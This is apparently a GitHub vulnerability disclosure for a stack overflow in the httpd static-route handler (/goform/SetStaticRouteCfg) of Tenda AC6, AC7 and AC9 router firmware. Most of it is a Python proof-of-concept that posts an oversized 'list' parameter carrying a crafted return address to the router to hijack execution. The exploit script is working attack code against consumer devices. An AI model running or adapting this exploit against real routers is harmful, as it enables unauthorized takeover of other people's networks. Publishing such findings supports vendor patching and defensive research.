 # static_router_stackoverflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01 US_AC7V1.0RTL_V15.03.06.44_multi_TD01 && US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin
 
Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html && https://www.tenda.com.cn/download/detail-2776.html 

#### Describe

  In Tenda AC6 AC7, AC9,The httpd component does not limit the length of the post parameter when setting the static route in /goform/setstaticroutecfg, resulting in stack overflow covering the return address and code execution

#### Detail

<img src="./img/image-20210917120859736.png" alt="image-20210917120859736" style="zoom:50%;" />

follow up sub_77EC8


 	Therefore, a stack overflow vulnerability is generated, which can cover the return address 

<img src="./img/image-20210917121219712.png" alt="image-20210917121219712" style="zoom:50%;" />

<img src="./img/image-20210917121127321.png" alt="image-20210917121127321" style="zoom:50%;" />

POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetStaticRouteCfg"


payload = "a"*7+"f"*7+"c"+"b"*(0x30)+p32(0x000697D8)+"d"*0x80

f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	"list":"192.168.33.0,255.255.255.0,192.168.33.1,WAN1"+payload
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/static_route.html?random=0.9469249426877971&",
	"Upgrade-Insecure-Requests":"1"
}

response = requests.request("POST", url, headers=headers, data=data)
```



